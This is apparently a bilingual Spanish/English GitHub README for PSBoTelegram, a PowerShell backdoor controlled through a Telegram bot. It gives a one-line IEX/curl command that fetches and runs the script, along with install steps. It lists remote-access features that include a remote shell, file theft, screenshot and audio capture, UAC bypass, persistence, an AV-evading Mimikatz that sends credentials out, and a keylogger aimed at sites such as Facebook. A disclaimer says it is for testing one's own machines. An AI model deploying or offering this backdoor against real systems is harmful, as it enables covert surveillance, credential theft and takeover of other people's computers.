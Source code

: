 

# PsBoTelegram
Backdoor using Telegram and Powershell. Por favor, usad sólo vuestros equipos para las pruebas.  
No me hago responsable de un mal uso del software. Rercordad que esto sólo es una prueba de concepto.  

Podeis probar el script abriendo una consola de powershell y ejecutando este comando:

**IEX (curl "https://raw.githubusercontent.com/Hackplayers/PSBoTelegram/master/PSBoTelegram.ps1" ).content**&nbsp;&nbsp;

        ____  _____ ____      ______     __
       / __ \/ ___// __ )____/_  __/__  / /__   ____ __________ _____ __
      / /_/ /\__ \/ __  / __ \/ / / _ \/ / _ \/ __  / ___/ __  / __  __ \
     / ____/___/ / /_/ / /_/ / / /  __/ /  __/ /_/ / /  / /_/ / / / / / /
    /_/    /____/_____/\____/_/  \___/_/\___/\__, /_/   \__,_/_/ /_/ /_/
                                            /____/

                                                     v0.8 by CyberVaca @ HackPlayers

PSBotTelegram es un script escrito en Powershell, que nos crea una backdoor que se conecta a un BOT de Telegram. El BOT se controlará por mensajes de Telegram. Al ejecutar el script nos va a pedir tres datos necesarios para crear el shellcode. 

# Instalación en Linux

    git clone https://github.com/hackplayers/psbotelegram.git
    cd psbotelegram
    sudo apt-get update > /dev/null
    sudo apt-get install libunwind8 libicu55 
    wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.0-alpha.13/powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    sudo dpkg -i powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    powershell ./PSBoTelegram.ps1

# Instalación en Windows

    Powershell.exe ./PSBotelegram.ps1
    
Los datos que nos pide son los siguientes:  

# Parametros
![Parametros](./images/parametros.png)  
 
**[+] Introduzca el Token del Bot de Telegram:** "Aquí deberemos poner el Token del bot que hayamos creado."  
**[+] Introduzca su Chat ID:** "Aquí deberemos poner nuestro ID de Telegram."  
**[+] Introduzca el delay para la conexión:** "En este campo seteamos el delay(retardo) entre en pc con el backdoor y nuestro chat de telegram"   

# Salidas de archivo:
![Salidas](./images/OutFiles.png)  

Una vez introducido estos datos, nos creará un shellcode en BASE64 en un tipo de archivo seleccionado para ejecutarlo en el equipo a auditar.  

# Funciones del backdoor.

[1]&nbsp;&nbsp;&nbsp;**/Help**&nbsp;&nbsp; (Nos muestra la ayuda)  
[2]&nbsp;&nbsp;&nbsp;**/Info**&nbsp;&nbsp; (Devuelve información sobre el equipo)   
[3]&nbsp;&nbsp;&nbsp;**/Shell**&nbsp;&nbsp; (/Shell + CmdLet a ejecutar )  
[4]&nbsp;&nbsp;&nbsp;**/Whoami**&nbsp;&nbsp; (Devuelve el usuario que ejecutó el codigo)  
[5]&nbsp;&nbsp;&nbsp;**/Ippublic**&nbsp;&nbsp; (Nos da IP publica, Pais y Ciudad del Target)  
[6]&nbsp;&nbsp;&nbsp;**/Kill**&nbsp;&nbsp; (Mata el backdoor)  
[7]&nbsp;&nbsp;&nbsp;**/Scriptimport**&nbsp;&nbsp; (Importa el script de powershell pasandole una url)  
[8]&nbsp;&nbsp;&nbsp;**/Shell nc (netcat)**&nbsp;&nbsp; (Función de powercat https://github.com/besimorhino/powercat
)  
[9]&nbsp;&nbsp;&nbsp;**/Download**&nbsp;&nbsp; (Download mas ruta nos descarga el archivo)  
[10]&nbsp;&nbsp;**/Screenshot**&nbsp;&nbsp; (Realiza screenshot y nos lo envia)  
[11]&nbsp;&nbsp;**/Audio**&nbsp;&nbsp; (/Audio X, Grabaría X segundos de audio y nos lo envia)  
[12]&nbsp;&nbsp;**/BypassUAC**&nbsp;&nbsp; (Ejecuta el Bot con privilegios administrativos)  
[13]&nbsp;&nbsp;**/Persistence**&nbsp;&nbsp; (/Persistence ON/OFF)  
[14]&nbsp;&nbsp;**/MimiGatoz**&nbsp;&nbsp; (Ejecuta Mimikatz modificado para el bypass AV y nos envia los datos)  
[15]&nbsp;&nbsp;**/Keylogger-Selective**&nbsp;&nbsp; (Ejecuta un Keylogger selectivo, ejemplo /keylogger-Selective Facebook)  
[16]&nbsp;&nbsp;**/Mimikittenz**&nbsp;&nbsp; (Ejecuta Mimikittenz, comprobando si el equipo es vulnerable y si no lo es, lo hace vulnerable... )  


# PsBoTelegram English 
Backdoor using Telegram and Powershell. Please use only your test equipment.
I am not responsible for any misuse of the software. Make sure this is only a proof of concept. 

You can test the script by opening a powershell console and running this command:

**IEX (curl "https://raw.githubusercontent.com/Hackplayers/PSBoTelegram/master/PSBoTelegram.ps1" ).content**&nbsp;&nbsp;


        ____  _____ ____      ______     __
       / __ \/ ___// __ )____/_  __/__  / /__   ____ __________ _____ __
      / /_/ /\__ \/ __  / __ \/ / / _ \/ / _ \/ __  / ___/ __  / __  __ \
     / ____/___/ / /_/ / /_/ / / /  __/ /  __/ /_/ / /  / /_/ / / / / / /
    /_/    /____/_____/\____/_/  \___/_/\___/\__, /_/   \__,_/_/ /_/ /_/
                                            /____/

                                                     v0.8 by CyberVaca @ HackPlayers

PSBotTelegram is a script written in Powershell, which creates a backdoor that connects to a Telegram BOT. The BOT will be controlled by Telegram messages. When executing the script we will ask for three data needed to create the shellcode.

# Install in Linux

    git clone https://github.com/hackplayers/psbotelegram.git
    cd psbotelegram
    sudo apt-get update > /dev/null
    sudo apt-get install libunwind8 libicu55 
    wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.0-alpha.13/powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    sudo dpkg -i powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    powershell ./PSBoTelegram.ps1

# Install in Windows

    Powershell.exe ./PSBotelegram.ps1
    
The data that asks us are the following:

# Parametres
![Parametros](./images/parametros.png)  
 
**[+] Enter the Telegram Bot Token:** "Here we have to put the Token of the bot we have created."  
**[+] Enter your Chat ID:** "Here we have to put our Telegram ID."  
**[+] Enter the delay for the connection:** "In this field we set the delay between pc in the backdoor and our telegram chat"   

[1]&nbsp;&nbsp;&nbsp;**/Help** (Show us the help)
[2]&nbsp;&nbsp;&nbsp;**/Info** (Returns information about the equipment)
[3]&nbsp;&nbsp;&nbsp;**/Shell** (/ Shell + CmdLet to run)
[4]&nbsp;&nbsp;&nbsp;**/Whoami** (Returns the user who ran the code)
[5]&nbsp;&nbsp;&nbsp;**/Ippublic** (We give IP publica, Country and Target City)
[6]&nbsp;&nbsp;&nbsp;**/Kill** (Kill the backdoor)
[7]&nbsp;&nbsp;&nbsp;**/Scriptimport** (Import the powershell script by passing it a url)
[8]&nbsp;&nbsp;&nbsp;**/Shell nc (netcat)** (Powercat function https://github.com/besimorhino/powercat)
[9]&nbsp;&nbsp;&nbsp;**/Download** (Download more path to download the file)
[10]&nbsp;&nbsp;&nbsp;**/Screenshot** (Make screenshot and send it to us)
[11]&nbsp;&nbsp;&nbsp;**/Audio** (/Audio X, Record X seconds of audio and send it to us)
[12]&nbsp;&nbsp;&nbsp;**/BypassUAC** (Runs the bot with administrative privileges)
[13]&nbsp;&nbsp;&nbsp;**/Persistence** (/ Persistence ON / OFF)
[14]&nbsp;&nbsp;&nbsp;**/MimiGatoz** (Run modified Mimikatz for AV bypass and send us the data)
[15]&nbsp;&nbsp;&nbsp;**/Keylogger-Selective** (Executes a Selective Keylogger, example / keylogger-Selective Facebook)
[16]&nbsp;&nbsp;&nbsp;**/Mimikittenz** (Mimikittenz runs, checking if the computer is vulnerable and if it is not, it makes it vulnerable ...)



